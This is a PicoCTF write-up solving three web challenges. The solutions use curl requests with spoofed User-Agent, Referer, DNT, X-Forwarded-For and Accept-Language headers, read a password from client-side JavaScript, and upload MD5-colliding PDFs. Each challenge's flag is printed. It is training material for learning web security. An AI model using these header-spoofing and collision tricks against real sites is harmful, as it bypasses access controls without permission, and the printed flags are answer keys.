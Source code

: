 # PicoCTF

## Web Exploitation

##### Problem
###### Who are you?
> Description
> Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:34588/

By visiting the page, one gets the following: "Only people who use the official PicoBrowser are allowed on this site!"

##### Solution

Sending the User-Agent as `PicoBrowser`, do not simple solve the issue.

```sh
curl -v -i -A "PicoBrowser" http://mercury.picoctf.net:34588/
```

```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">I don&#39;t trust users visiting from another site.</h3>
                        </div>
                </div>
```

Sending Referer HEADER field

```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">Sorry, this site only worked in 2018.</h3>
                        </div>
                </div>
```

I had to try different HEADER options regarding age. The output changed when I used `max-age` and `Date`.

```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">I don&#39;t trust users who can be tracked.</h3>
                        </div>
                </div>
```

They were using an old `Do Not Track (DNT)` which accepts value 1 if client don't want to be tracked.
```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" -H "DNT: 1" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">This website is only for people from Sweden.</h3>
                        </div>
                </div>
```

I must admit that I have almost gave up on this one, since I have tried `Accept-Language`, `Content-Language` and many other ones related to language. I also tried `CountryCode`, `Country`, `IP` and other few ones. 

I tried `http IP header` in the Web Search and the result came: The `X-Forwarded-For` (XFF) HTTP header field is a common method for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or load balancer.

Let's try this one by using the IP range from Sweden. I have found an IP here: https://lite.ip2location.com/sweden-ip-address-ranges


```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" -H "DNT: 1" -H "X-Forwarded-For: 2.16.66.1" http://mercury.picoctf.net:34588/
```
```html
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">You&#39;re in Sweden but you don&#39;t speak Swedish?</h3>
                        </div>
                </div>
```

Now the process is easy!

```sh
curl -v -i -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:34588/" -H "max-age: 2018" -H "Date: 2018" -H "DNT: 1" -H "X-Forwarded-For: 2.16.66.1" -H "Accept-Language: sv-SE" http://mercury.picoctf.net:34588/
```

**FLAG**
```
picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_79e451a7}

```


##### Problem
###### dont-use-client-side
> Description
> Can you break into this super secure portal? https://jupiter.challenges.picoctf.org/problem/29835/ (link) or http://jupiter.challenges.picoctf.org:29835

##### Solution

To capture the flag one needs to `Enter valid credentials to proceed`. There is a JavaScript that checks for that.

```js
  function verify() {
    checkpass = document.getElementById("pass").value;
    split = 4;
    if (checkpass.substring(0, split) == 'pico') {
      if (checkpass.substring(split*6, split*7) == '723c') {
        if (checkpass.substring(split, split*2) == 'CTF{') {
         if (checkpass.substring(split*4, split*5) == 'ts_p') {
          if (checkpass.substring(split*3, split*4) == 'lien') {
            if (checkpass.substring(split*5, split*6) == 'lz_7') {
              if (checkpass.substring(split*2, split*3) == 'no_c') {
                if (checkpass.substring(split*7, split*8) == 'e}') {
                  alert("Password Verified")
                  }
                }
              }
            }
          }
        }
      }
    }
```

You just have to follow the white rabbit. First part the string is  `substring(0, split) == 'pico')`. Second is `substring(split, split*2) == 'CTF{')`. Third is `substring(split*2, split*3) == 'no_c')`. Forth part is `substring(split*3, split*4) == 'lien')`, so on so forth, and final part denotes `substring(split*7, split*8) == 'e}')`.


**FLAG**

```
picoCTF{no_clients_plz_7723ce}
```

##### Problem
###### It is my Birthday
> Description
> I sent out 2 invitations to all of my friends for my birthday! I'll know if they get stolen because the two invites look similar, and they even have the same md5 hash, but they are slightly different! You wouldn't believe how long it took me to find a collision. Anyway, see if you're invited by submitting 2 PDFs to my website. http://mercury.picoctf.net:48746/

##### Solution

This web application is vulrnable to the idea of MD5 collision. Basically, to solve this challenge one needs to send _two_ files that generates the same hash output.

I dowloaded the following files from: https://www.mathstat.dal.ca/~selinger/md5collision/

```sh
# first file
curl -O https://www.mathstat.dal.ca/~selinger/md5collision/erase
cp erase 1.pdf

# second file
curl -O https://www.mathstat.dal.ca/~selinger/md5collision/hello
cp hello 2.pdf
```

Now, upload `1.pdf` and `2.pdf`. You will receive the flag:

**FLAG**
```php
// FLAG: picoCTF{c0ngr4ts_u_r_1nv1t3d_aebcbf39}
```
